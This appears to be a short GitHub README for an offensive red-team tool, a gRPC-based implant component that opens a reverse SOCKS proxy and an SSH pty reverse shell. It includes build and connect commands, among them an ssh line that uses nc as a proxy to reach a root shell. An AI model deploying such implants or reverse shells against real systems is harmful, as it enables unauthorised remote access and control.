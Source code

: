# `grpcssh` (now with proper concurrent socks)
```
better explained over at https://tishina.in/ops/grpcssh
an extension over grpc-ssh-socks. this can be considered a simple reverse shell. on connect,
a socks proxy is opened by the server. connecting over ssh to a hardcoded ip address with
an arbitrary password grants a full pty shell.

DNS resolution is very simple and done via an SSH "session" channel in the form of Write(addr), Read(ip)

this is a reference implementation for a reverse socks proxy in a gRPC-based implant. The SSH server is added mostly for fun.
for the pty shell, full credit goes to https://gist.github.com/jpillora/
here it is, kind of working:
```
![image](https://github.com/zimnyaa/grpcssh/assets/502153/b3e4fce7-8ba4-46ce-9cff-d62fa4f7290f)

```
~/grpcssh$ make 
to build this even more abominable thing. 
~/grpcssh$ ssh -o ProxyCommand="nc -x localhost:1080 %h %p" -o "UserKnownHostsFile=/dev/null" root@1.1.1.1
to get a shell.
```
